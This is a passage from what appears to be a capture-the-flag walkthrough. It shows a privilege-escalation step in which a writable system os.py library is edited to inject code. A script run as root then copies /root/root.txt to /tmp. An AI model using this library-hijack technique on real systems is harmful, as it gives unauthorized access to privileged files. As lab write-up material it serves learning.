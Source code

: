 ```

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
The script doesn't do too much but it does use the <b>os</b> module which if you remember from the Enum scipt I know that I have write permissions to it. So lets edit the <b>/usr/lib/python2.7/os.py</b> and add in some code at the top that reads the root flag for us.
```
with open('/root/root.txt', 'r') as f:
  output = f.readline()
with open('/tmp/rootpass.txt', 'w') as o:
  o.write(output)
```
Now just wait a little bit and you should see the <b>rootpass.txt</b> file in the </b>/tmp</b> fdirectory with the root flag inside it.
<br><br><br>
